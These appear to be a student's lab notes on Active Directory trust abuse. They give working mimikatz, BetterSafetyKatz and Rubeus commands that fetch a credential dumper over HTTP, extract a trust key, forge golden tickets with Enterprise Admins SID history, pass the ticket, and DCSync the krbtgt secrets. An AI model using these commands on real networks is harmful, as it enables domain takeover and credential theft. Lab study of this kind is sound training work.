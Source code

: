 *Using the trust key*
First you need the trust key
```cmd
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```
Extract the key
```mimikatz
lsadump::trust /patch
```
![[Pasted image 20231113153820.png]]
Now you can frge a ticket with SID History of Enterprise Admins.Use BetterSafeyKatz
```BetterSafetyKatz
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<CURRENT DOMAIN> /sid:<CURRENT DOMAIN SID> /sids:<SID TO EXTRACT> /rc4:<TRUST KEY> /service:krbtgt /target:<TARGET DOMAIN> /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```
![[Pasted image 20231113155053.png]]
Now use rubeus to use the ticket and get access on mcorp-dc
```cmd
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/<TARGET MACHINE> /dc:<TARGET MACHINE> /ptt
```
![[Pasted image 20231113155312.png]]
Test it
![[Pasted image 20231113155355.png]]
*Using the krbTGT account*
With the hash of krbtgt account from dcorp-dc we can create an inter-realm TGT and inject. Using Rubeus
```Rubeus
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<CURRENT DOMAIN> /sid:<CURRENT DOMAIN SID> /sids:<SID TO EXTRACT> /krbtgt:<KRBTGT HASH> /ptt" "exit"
```
![[Pasted image 20231113161101.png]]
Test it
![[Pasted image 20231113161326.png]]
Now we can also run a DC-Sync against mcorp-dc to extract the his secrets
```cmd
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<TARGET DOMAIN>" "exit"
```